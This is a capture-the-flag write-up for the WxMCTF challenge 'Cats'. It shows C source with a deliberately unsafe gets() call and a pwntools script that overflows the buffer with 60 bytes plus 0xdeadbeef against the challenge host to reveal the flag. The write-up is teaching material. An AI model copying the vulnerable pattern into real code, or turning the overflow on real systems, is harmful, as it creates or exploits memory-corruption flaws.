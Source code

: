# WxMCTF Pwn 1 - Cats
> I had to hide my secret so any MGCI cat-haters will never find it! Do you like cats?

## About the Challenge
We were given a source code (You can download the file [here](cats_mAxjvpN.c)) and an instance. Here is the content of the source code
```c
#include <stdio.h>
#include <stdlib.h>

void cats() {
    char hmm[40];

    puts("Do you like cats?");
    int trustNoOne = 0;
    gets(hmm);

    if(trustNoOne == 0xdeadbeef) {
        puts("hmmm... alright, here's my secret:\n");
        const char* flag = getenv("FLAG");
        if (flag == NULL) {
            printf("Flag not found!\n");
            exit(0);
        }
    printf("%s\n",flag);
    } else {
        puts(">:( you're not allowed to see my secret!");
    }
}

int main() {
    setvbuf(stdout, NULL, 2, 0);
    cats();
}
```

We need to change the value of the `trustNoOne` variable from `0` to `0xdeadbeef` to get the flag

## How to Solve?
To get the flag we need to exploit using buffer overflow to overwrite the `trustNoOne` variable

```python
#!/usr/bin/env python3
from pwn import *
p = remote('b03c9f7.678470.xyz', 32756)
payload = b'A' * 60 + p32(0xdeadbeef)
p.sendlineafter(b'Do you like cats?\n', payload)
p.interactive()
```

The script constructs a payload consisting of 60 bytes of the ASCII character `A` followed by a little-endian representation of the hexadecimal value `0xdeadbeef`. Run the instance and then run the program, and you will get the flag

![flag](images/flag.png)

```
wxmctf{c@t$_@R3_th3_B3$t}
```